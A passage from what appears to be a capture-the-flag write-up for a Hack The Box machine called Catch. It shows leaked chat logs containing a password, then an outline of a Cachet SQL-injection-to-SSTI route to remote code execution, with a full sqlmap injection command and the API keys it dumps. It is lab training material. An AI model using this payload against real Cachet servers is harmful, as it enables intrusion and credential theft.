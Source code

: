 ```shell
    "id": "61b87010fe190b466d476bf9",
    "text": "Sure one sec.",
    "posted": "2021-12-14T10:21:04.635Z",
    "owner": "61b86f15fe190b466d476bf5",
    "room": "61b86b28d984e2451036eb17"
  },
  {
    "id": "61b86fb1fe190b466d476bf8",
    "text": "Can you create an account for me ? ",
    "posted": "2021-12-14T10:19:29.677Z",
    "owner": "61b86dbdfe190b466d476bf0",
    "room": "61b86b28d984e2451036eb17"
  },
  {
    "id": "61b86f4dfe190b466d476bf6",
    "text": "Hey Team! I'll be handling the `status.catch.htb` from now on. Lemme know if you need anything from me. ",
    "posted": "2021-12-14T10:17:49.761Z",
    "owner": "61b86f15fe190b466d476bf5",
    "room": "61b86b28d984e2451036eb17"
  }
]
```

And We found credentials of user **John** for **Status** page.

```text
john :  E}V!mywu_69T4C}W
```



## Getting Shell
The Cachet platform used had some vulnerabilites which we can exploit to gain RCE on the platform.

Reference : 
- [CTFiot](http://www.ctfiot.com/18914.html)
- [SQLi on Cachet](https://www.leavesongs.com/PENETRATION/cachet-from-laravel-sqli-to-bug-bounty.html)
					
So basically Cachet have a **SQLi** Vulnerability using which we can get `api_keys` of users, using those `api_keys` we can execute our `Twig SSTI` payload and gain RCE.

So after using **SQLmap** to enumrate the Database got the `api_keys`.

```shell
┌──(kali㉿kali)-[~/Desktop/Catch]
└─$ sqlmap -u "http://catch.htb:8000/api/v1/components?name=1&1[0]=&1[1]=a&1[2]=&1[3]=or+%27a%27=%3F%20and%201=1)*+--+" --dbms=mysql -D cachet -T users -C username,api_key --dump
```


| username | api_key              |
|----------|----------------------|
| john     | 7GVCqTY5abrox48Nct8j |
| admin    | rMSN8kJN9TPADl2cWv8N |
